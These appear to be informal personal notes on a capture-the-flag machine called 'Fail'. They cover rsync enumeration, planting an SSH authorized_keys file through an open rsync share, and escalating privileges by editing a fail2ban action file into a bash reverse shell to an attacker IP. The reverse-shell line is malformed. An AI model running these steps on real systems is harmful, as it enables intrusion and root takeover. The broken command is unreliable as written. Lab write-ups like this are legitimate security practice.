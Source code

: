 # Fail Notes

## Data 

IP: 
OS:
Arch:
Hostname:
DNS:
Domain:  / Domain SID:
Machine Purpose: 
Services:
Service Languages:
Users:
Email and Username Formatting:
Credentials:

## Objectives

`\#\# Target Map ![](Fail-map.excalidraw.md)`

#### Machine Connects to list and reason:

[[]] - Reason X

## Data Collected

#### Credentials
```
```

#### HUMINT


#### Solution Inventory Map


#### Todo 


#### Timeline of tasks complete
      

![](reping.png)
searchsploit-rsync.png
sudo nmap -p- -oA nmap/rerescan-script-typo-All-TCP-slow --min-rate 10 192.168.229.126
https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync
https://youssef-ichioui.medium.com/abusing-rsync-misconfiguration-to-get-persistent-access-via-ssh-2507d4a1690b
https://exploit-notes.hdks.org/exploit/network/rsync-pentesting/


phindwhatrsynccantdo.png



bannerandmanenum.png

correctway.png

```bash
nc -nv $ip 873
@RSYNCDL: 31.0 # Server sends this just send it back
# Enumerate files - `#list` 
#list 
# If the send back a directory if @RSYNCD: AUTHREQD then password is required

# Similarly with rsync
rsync -av --list-only rsync://$ipaddress

# SSH Key syncing - https://exploit-notes.hdks.org/exploit/network/rsync-pentesting/

ssh-keygen -f testkey
cat testkey.pub > authorized_keys


rsync -av .ssh rsync://192.168.193.126/fox

# /etc/rsyncd.secrets


rsync -vAXogEp  ./bash rsync://192.168.193.126/fox



```

whathashitisaskaiforthefirsttime.png

```
-rw-r--r-- 1 root root 47 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/basic/authz_owner/.htpasswd
username:$apr1$1f5oQUl4$21lLXSN7xQOPtNsj5s4Nk/
-rw-r--r-- 1 root root 47 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/basic/file/.htpasswd
username:$apr1$uUMsOjCQ$.BzXClI/B/vZKddgIAJCR.
-rw-r--r-- 1 root root 117 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_anon/.htpasswd
username:digest anon:25e4077a9344ceb1a88f2a62c9fb60d8
05bbb04
anonymous:digest anon:faa4e5870970cf935bb9674776e6b26a
-rw-r--r-- 1 root root 62 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest/.htpasswd
username:digest private area:fad48d3a7c63f61b5b3567a4105bbb04
-rw-r--r-- 1 root root 62 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_time/.htpasswd
username:digest private area:fad48d3a7c63f61b5b3567a4105bbb04
-rw-r--r-- 1 root root 62 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_wrongrelm/.htpasswd
username:wrongrelm:99cd340e1283c6d0ab34734bd47bdc30
4105bbb04
```

Very normal crons
![](cronacronalong.png)

failedintothessh.png

```
fox@fail:/dev/shm$ find / -group fail2ban 2>/dev/null | grep -v '/run/\|/proc/\|/sys/' | xargs -I {} grep -r -e 'ass' {}
```

Itriedtouploadbashwithdifferentperms.png

The password does not crack...


Hint taken: Check your group membership and what processes are run on schedule. Enumerate the relevant directory. Then, abuse an action to get a shell.


```bash
# root will only be allowed to run this just for methodological thoroughness
fox@fail:/dev/shm$ which fail2ban 
# Path is not controllable
echo $PATH | tr -s ':' '\n'
/usr/local/bin
/usr/bin
/bin
/usr/local/games
/usr/games

fox@fail:/dev/shm$ find / -type d -group fail2ban -perm -o+w 2>/dev/null
/etc/fail2ban* # ARE not writable 
fox@fail:/dev/shm$ find / -type d -name *fail2ban* -ls 2>/dev/null
```

Triple check encase it is ever 5 minutes
whatwhereandwhy.png

Trying to work if /sbin/init that is symlinked to systemd is misconfigured
```
fox@fail:/dev/shm$ ps -o uid= -p $(pidof /sbin/init)
```

systemdessnut.png

pushphindtoaitheansweriamnotdorking.png

HELPED-THROUGHED because I am too ill and stress TO ONCE AGAIN READ THE GROUP PERMISSIONS FOR THE 3rd+ box in the last 3 months atleast

```

ls -l /etc/fail2ban/

cat /etc/fail2ban/README.fox 
# Fail2ban restarts each 1 minute, change ACTION file following Security Policies. ROOT!


ls -l /etc/fail2ban/action.d

cat /etc/fail2ban/jail.conf

sed -i 's@actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>@actionban = bash -i \>\& \/192.168.45.217\/4444 0\>\&1@g' /etc/fail2ban/action.d/iptables-multiport.conf


```


theyearofthefacepalmandreadthegrouppiditisnotjustyouruser.png


pain.png

I would have never probably thought trying to ban mmy own ip so I need to reconfigure the way I think still on this issue. State of mind regardless 

